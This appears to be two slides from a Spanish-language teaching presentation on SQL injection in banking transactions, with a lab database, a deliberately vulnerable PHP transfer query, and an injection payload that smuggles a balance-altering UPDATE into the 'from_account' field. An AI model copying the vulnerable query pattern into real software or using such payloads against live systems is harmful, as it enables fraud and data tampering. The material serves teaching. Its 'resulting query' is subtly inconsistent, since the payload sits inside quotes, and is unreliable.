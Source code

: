 
## Diapositiva 11: Demostración Práctica - Setup

### Laboratorio: SQL Injection en Transacciones

#### Base de Datos de Prueba
```sql
CREATE DATABASE bank_lab;
CREATE TABLE accounts (
    account_id INT PRIMARY KEY,
    username VARCHAR(50),
    balance DECIMAL(10,2)
);

INSERT INTO accounts VALUES 
(1, 'alice', 1000.00),
(2, 'bob', 500.00);
```

#### Aplicación Vulnerable
```php
// Transferencia vulnerable
$query = "BEGIN; 
          UPDATE accounts SET balance = balance - $amount 
          WHERE account_id = '$from'; 
          UPDATE accounts SET balance = balance + $amount 
          WHERE account_id = '$to'; 
          COMMIT;";
```

---

## Diapositiva 12: Demostración - Explotación

### Payload de Ataque
```sql
-- Input malicioso en campo 'from_account'
1; UPDATE accounts SET balance = 999999 WHERE account_id = 1; --
```

### Consulta Resultante
```sql
BEGIN; 
UPDATE accounts SET balance = balance - 100 
WHERE account_id = '1; UPDATE accounts SET balance = 999999 
WHERE account_id = 1; --'; 
UPDATE accounts SET balance = balance + 100 
WHERE account_id = '2'; 
COMMIT;
```

